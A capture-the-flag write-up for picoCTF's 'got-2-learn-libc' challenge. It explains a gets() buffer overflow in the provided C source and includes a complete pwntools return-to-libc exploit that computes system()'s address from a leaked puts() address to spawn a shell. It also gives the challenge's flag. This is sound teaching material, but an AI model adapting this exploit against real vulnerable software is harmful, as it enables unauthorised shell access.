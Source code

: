 # got-2-learn-libc
## Question
> This [program](files/vuln) gives you the address of some system calls. Can you get a shell? You can find the program in `/problems/got-2-learn-libc_4_526cc290dde8d914a30538d3d0ac4ef1` on the shell server. [Source](files/vuln.c). 

## Hint
>try returning to systems calls to leak information

>don't forget you can always return back to `main()`

# Solution
## Code Analysis

The `main` function displays addresses of some functions of the `libc` library (running the program several times, you can see that these address are changing, due to ASLR) and jumps to the `vuln` function:
```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  puts("Here are some useful addresses:\n");

  printf("puts: %p\n", puts);
  printf("fflush %p\n", fflush);
  printf("read: %p\n", read);
  printf("write: %p\n", write);
  printf("useful_string: %p\n", useful_string);

  printf("\n");
  
  vuln();

  
  return 0;
}
```

The `vuln` function sets a buffer of 148 bytes (we will obviously need to overflow it), asks for a string and displays it.
```c
#define BUFSIZE 148

// ...
// [SNIP]
// ...

void vuln(){
  char buf[BUFSIZE];
  puts("Enter a string:");
  gets(buf);
  puts(buf);
  puts("Thanks! Exiting now...");
}
```

Interestingly, we are also provided with the string `/bin/sh` which will be in the stack, and stored in the `useful_string` variable:
```c
char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */
```

## return-to-libc attack
As the title suggests, we will use a return-to-libc attack, which consists of finding the `system` function in memory to call our shell via the `useful_string` already available. We can use `gdb` on the server directly to determine the address of `puts` and `system` to compute an offset that we will use later (during runtime, we'll determine the real address of `system` based on the disclosed address of `puts`):

~~~~
$ gdb -q /problems/got-2-learn-libc_4_526cc290dde8d914a30538d3d0ac4ef1/vuln
Reading symbols from /problems/got-2-learn-libc_4_526cc290dde8d914a30538d3d0ac4ef1/vuln...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x812
(gdb) r
Starting program: /problems/got-2-learn-libc_4_526cc290dde8d914a30538d3d0ac4ef1/vuln 

Breakpoint 1, 0x56565812 in main ()
(gdb) p puts
$1 = {<text variable, no debug info>} 0xf7665140 <puts>
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7640940 <system>
~~~~

## Build our script

```python
#!/usr/bin/env python
import pwn
import re

# In GDB
gdb_puts = 0xf7665140
gdb_system = 0xf7640940
offset = gdb_puts - gdb_system

#elf = pwn.ELF('./vuln')
elf = pwn.ELF('/problems/got-2-learn-libc_4_526cc290dde8d914a30538d3d0ac4ef1/vuln')
p = elf.process()
output = p.recv()

# runtime memory addresses
mem_puts          = int(re.findall('puts: (.*)', output)[0], 16)
mem_useful_string = int(re.findall('useful_string: (.*)', output)[0], 16)
# retrieve real address of system
mem_system = mem_puts - offset

# execute system('/bin/sh')
payload  = 'A'*160                    # buffer overflow
payload += pwn.p32(mem_system)        # system
payload += 'B'*4                      # return address
payload += pwn.p32(mem_useful_string) # /bin/sh

p.sendline(payload)
p.interactive()
```
## Execute the script on the server

Copy the [script](files/flag.py) to your home directory and execute it
~~~~
$ python2 flag.py 
[*] '/problems/got-2-learn-libc_4_526cc290dde8d914a30538d3d0ac4ef1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/problems/got-2-learn-libc_4_526cc290dde8d914a30538d3d0ac4ef1/vuln': pid 3449587
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@\x19Z�BBBB0`\V
Thanks! Exiting now...
$ cd /problems/got-2-learn-libc_4_526cc290dde8d914a30538d3d0ac4ef1/
$ ls
flag.txt  vuln    vuln.c
$ cat flag.txt
picoCTF{syc4al1s_4rE_uS3fUl_88aa45fa}$ 
[*] Stopped process '/problems/got-2-learn-libc_4_526cc290dde8d914a30538d3d0ac4ef1/vuln' (pid 3449587)
sdam@pico-2018-shell:~$ 
~~~~

# Flag
`picoCTF{syc4al1s_4rE_uS3fUl_88aa45fa}`
